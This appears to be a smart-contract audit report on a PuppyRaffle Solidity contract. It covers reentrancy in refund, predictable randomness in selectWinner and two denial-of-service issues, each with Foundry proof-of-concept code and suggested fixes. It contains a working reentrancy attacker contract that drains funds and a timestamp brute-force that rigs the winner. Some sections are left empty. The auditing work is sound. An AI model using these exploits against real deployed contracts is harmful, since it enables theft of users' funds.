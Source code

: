 ### [H-1] Invoking `PuppyRaffle::refund` allows active users to execute a reentrancy attack on the contract due to the lack of Check-Effects-Interactions (CEI) pattern implementation. This vulnerability occurs when returning the `entranceFee` to the user, enabling a potential reentrancy exploit. 

**Description:** A malicious active user can repeatedly reenter the `PuppyRaffle::refund` function, draining the contract of all funds. This vulnerability exists because the user's `entranceFee` is refunded before updating the state of their `entranceFee`.

``` solidity 
        payable(msg.sender).sendValue(entranceFee);
        // refunding the entranceFee before updating the state 
-->     players[playerIndex] = address(0);

```


**Impact:** Reentering into the contract can result in a loss of funds, affecting end users monetarily and damaging the protocol's finances and reputation. 

**Proof of Concept:** The active threat actor can successfully reenter into `PuppyRaffle::refund` by creating a malicious contract stealing all funds:

<details>
<summary>Malicious Contract</summary>

``` solidity 
        contract Reentrancy {
            PuppyRaffle puppyRaffle;   

            uint256 entranceFee;
            uint256 attackerIndex;

            constructor(PuppyRaffle _puppyRaffle) {
                puppyRaffle = _puppyRaffle;
                entranceFee = puppyRaffle.entranceFee();
            }

            receive() external payable {
                if (address(puppyRaffle).balance >= entranceFee) {
                puppyRaffle.refund(attackerIndex);    
                }
            }

            function attack() public payable {
                address[] memory players = new address[](1);
                players[0] = address(this);

                // enter the raffle 
                puppyRaffle.enterRaffle{value: entranceFee}(players);

                // get the player index
                attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
                
                // call refund function 
                // as refund is called it will invoke the receive function inside this contract 
                puppyRaffle.refund(attackerIndex);        
            }
        }

```


</details>

<details>
<summary>PoC</summary>

``` solidity 
        function testReentrancy() public {
            // creating players
            address[] memory players = new address[](4);
            players[0] = address(5);
            players[1] = address(6);
            players[2] = address(7);
            players[3] = address(8);
            
            // entering the raffle 
            puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);

            // creating new attacker contract 
            Reentrancy attackerContract = new Reentrancy(puppyRaffle);
            address badPlayer = makeAddr("badPlayer");
            deal(badPlayer, 1 ether);

            uint256 startingAttackerbalance = address(attackerContract).balance;
            uint256 startingContractBalancce = address(puppyRaffle).balance;

            // reentrancy exe
            vm.prank(badPlayer);
            attackerContract.attack{value: entranceFee}();

            // logging
            console.log("starting attacker contract balance: %s", startingAttackerbalance);
            console.log("starting contract balance: %s", startingContractBalancce);

            console.log("ending attacker contract balance: %s", address(attackerContract).balance);
            console.log("ending contract balance: %s", address(puppyRaffle).balance);
        }

```


</details>

**Recommended Mitigation:** There are three primary options to resolve reentrancy from occuring within `PuppyRaffle::refund`. 

 


<summary>1. Implement Check-Effects-Interactions (CEI) pattern:</summary>

``` diff 
        function refund(uint256 playerIndex) public {
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+           players[playerIndex] = address(0);
            payable(msg.sender).sendValue(entranceFee);

-           players[playerIndex] = address(0);
            emit RaffleRefunded(playerAddress);
        }

```




 
<summary>2. Implement a locking mechanism to PuppyRaffle::refund:</summary>

``` diff 
+        error PuppyRaffle__lockedFunction();
+        bool locked = false;

        function refund(uint256 playerIndex) public {
+           if (locked) { revert PuppyRaffle__lockedFunction(); }
+           locked = true;
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

            payable(msg.sender).sendValue(entranceFee);
            players[playerIndex] = address(0);
            emit RaffleRefunded(playerAddress);

+           // Unlock the function after execution
+           locked = false;
        }


```



<summary>3. Leveraging existing libraries from trust sources like OpenZeppelin's ReentrancyGuard:</summary>

``` diff 
+        function refund(uint256 playerIndex) public  nonReentrant {
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

            payable(msg.sender).sendValue(entranceFee);
            players[playerIndex] = address(0);
            emit RaffleRefunded(playerAddress);
        }

```




### [H-2] Insecure randomness in `PuppyRaffle::selectWinner` allows for winner manipulation. By exploiting vulnerable randomness when selecting the winner on-chain via block.timestamp, an active user can predict and potentially influence who will be the next winner by gathering the correct parameters.

**Description:** Using on-chain randomization introduces predictability when selecting the winner. 

``` solidity 
        // @vuln: usess insecure randomness 
        uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;

```


**Impact:** The winner can be manipulated due the usage of `block.timestamp` and `block.difficulty`. Allowing, for unfair loss of funds. 


**Proof of Concept:** Relying on `block.timestamp` & `block.difficulty` introduces the risk of predictability if an attacker controls transaction timing or if they are a miner.

Using `msg.sender` allows the caller to mine for favorable addresses, compromising the system's randomness.

The following PoC simulates a raffle with 100 participants. The goal is to manipulate the outcome so that address 26 becomes the designated winner. By determining the precise `block.timestamp` and applying it to the winner-selection equation, we can call `PuppyRaffle::selectWinner` and confirm that address 26 indeed wins the raffle. 
```
    Logs:
    Starting balance of address 26 balance: 0
    Malicious Timestamp: 86413
    Expected winner index: 26
    Address of expected winner: 0x000000000000000000000000000000000000001a
    Number of attempts to find the expected winner: 12
    Actual Winner: 0x000000000000000000000000000000000000001a
    Ending balance of address 26: 80000000000000000000

```

<details>
<summary>PoC</summary>

``` solidity 

        function test100Randomness() public returns (bool, address) {
            
            uint256 predictWinnerIndex;
            uint256 numberOfAttempts = 0;
            uint256 numberOfPlayers = 100; 

            address predictWinner;
            address expectedWinner;
                     
            console.log("Starting balance of address 26: %s", address(payable(26)).balance);

            // creating players
            address[] memory players = new address[](numberOfPlayers);
            // create 100 unique address
            for (uint256 i; i < players.length; i++) {
                players[i] = address(payable(i));
            }
            uint256 playerLength = players.length;

            // entering the raffle
            puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);

            // calc the end time
            uint256 raffleEndTime = puppyRaffle.raffleStartTime() + puppyRaffle.raffleDuration();

            for (uint256 i = 0; i < 1000; i++) {
                // used to discover the number of attempts to discover the winner
                numberOfAttempts++;

                // with each iteration, the testTimestamp is incremented by 1 + i
                uint256 testTimestamp = raffleEndTime + 1 + i;
                // updating the current timestamp with each iteration
                vm.warp(testTimestamp); 

                // discovered timestamp is applied to the equation 
                uint256 expectedWinnerIndex = uint256(keccak256(abi.encodePacked(address(this), testTimestamp, block.difficulty))) % playerLength;

                // get the address of the expected winner 
                expectedWinner = players[expectedWinnerIndex];

                // making sure the expected winner matches the desired address to win!!!
                if (expectedWinner == players[26]) {
                    console.log("Malicious Timestamp: %s", testTimestamp);
                    console.log("Expected winner index: %s", expectedWinnerIndex);
                    console.log("Address of expected winner: %s", expectedWinner);
                    console.log("Number of attempts to find the expected winner: %s", numberOfAttempts);

                    vm.prank(address(this));
                    puppyRaffle.selectWinner();

                    address actualWinner = puppyRaffle.previousWinner();
                    console.log("Actual Winner: %s", actualWinner);

                    assertEq(actualWinner, expectedWinner, "Address 26 did not win");
                    break; 
                }
            }
            console.log("Balance of address 26: %s", address(expectedWinner).balance);
        }


```


</details>

**Recommended Mitigation:** The most popular method to mitigate weak randomness is to offload the computation off-chain and leverage Chainlink VRF (Verifiable Random Function). 

Chainlink VRF allows for the output of the randomization to be mathatically safe via RNG (Random Number Generator). 


<details>
<summary>PoC Pending...</summary>

``` diff 


```
</details>











---


### [M-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` causes a Denial of Service Attack (DoS), incrementing gas costs for futher entrants. 

**Description:** The `PuppyRaffle::enterRaffler` function loops through the `PuppyRaffle::players` array to check for duplicate address entries. If a duplicate is found, the function reverts. However, there's no limit set on the `PuppyRaffle::players` array size. This causes gas costs to increase as more players are added, potentially rendering the function inoperable due to significant gas increases. 
``` solidity
        // @vuln: check if the duplicate check will cause a DOS | more than likly high gas consumption
        // Check for duplicates
        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

**Impact:** The gas costs for raffle entrants will significantly increase as more players join the raffle. This discourages later users from entering and causes a rush at the start of a raffle to be among the first entrants in the queue. 

**Proof of Concept:** If we have 2 sets of 100 players enter, the gas costs will be as such:
- 1st 100 players: ~6252047
- 2nd 100 players: ~18068137
This more than 3x more expensive for the second 100 players


<details>
<summary>PoC</summary>

``` solidity 
    function testEnterRaffleDoS() public {
            // starting gas price to 1
            vm.txGasPrice(1);

            uint256 playersNum = 100;
            address[] memory players = new address[](playersNum);
            // this will alow us to create unique address
            for (uint256 i; i < playersNum; i++) {
                players[i] = address(i);
            }

            uint256 initialGas = gasleft();
            puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
            uint256 postGas = gasleft();

            uint256 gasForTheFirst100 = (initialGas - postGas) * tx.gasprice;
            console.log("Post Gas 100: %s", gasForTheFirst100);


            address[] memory playersTwo = new address[](playersNum);
            // this will alow us to create unique address
            for (uint256 i; i < playersNum; i++) {
                playersTwo[i] = address(i + playersNum);
            }


            uint256 initialGas200 = gasleft();
            puppyRaffle.enterRaffle{value: entranceFee * playersNum}(playersTwo);
            uint256 postGas200 = gasleft();

            uint256 gasForTheFirst200 = (initialGas200 - postGas200) * tx.gasprice;
            console.log("Post Gas 200: %s", gasForTheFirst200);

            assert(gasForTheFirst100 < gasForTheFirst200);

        }
```

</details>


**Recommended Mitigation:** Consider using a mapping to check duplicates. This would allow you to check for duplicates in constant time, rather than linear time. You could have each raffle have a uint256 id, and the mapping would be a player address mapped to the raffle Id.

``` diff
+    mapping(address => uint256) public addressToRaffleId;
+    uint256 public raffleId = 0;
    .
    .
    .
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+            addressToRaffleId[newPlayers[i]] = raffleId;
        }

-        // Check for duplicates
+       // Check for duplicates only from the new players
+       for (uint256 i = 0; i < newPlayers.length; i++) {
+          require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+       }
-        for (uint256 i = 0; i < players.length; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }
        emit RaffleEnter(newPlayers);
    }
.
.
.
    function selectWinner() external {
+       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");

```

### [M-2] 

**Description:** DOS `PuppyRaffle::withdrawFees` 

``` solidity 
        // @vuln: strict equality is specified causing a potential DoS
        require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");

```


**Impact:** 

**Proof of Concept:** 

<details>
<summary>PoC</summary>

``` solidity 
    function testFeeDos() public returns(uint256){
        // create users 
        address[] memory players = new address[](4);
        players[0] = address(payable(1));
        players[1] = address(payable(2));
        players[2] = address(payable(3));
        players[3] = address(payable(4));

        // enter the users to the raffle 
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);

        // warp time and block to the end of the raffle 
        uint256 endTime = puppyRaffle.raffleStartTime() + puppyRaffle.raffleDuration();
        vm.warp(endTime);
        vm.roll(endTime + 1);

        // selecting the winner 
        puppyRaffle.selectWinner();

        uint256 fees = puppyRaffle.totalFees();      

        vm.deal(address(puppyRaffle), address(puppyRaffle).balance + 1 ether);

        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();

        console.log("The fee balance     : %s", fees);
        console.log("The contract balance: %s", address(puppyRaffle).balance);
    }

```


</details>

**Recommended Mitigation:** 

``` diff

``` 


---
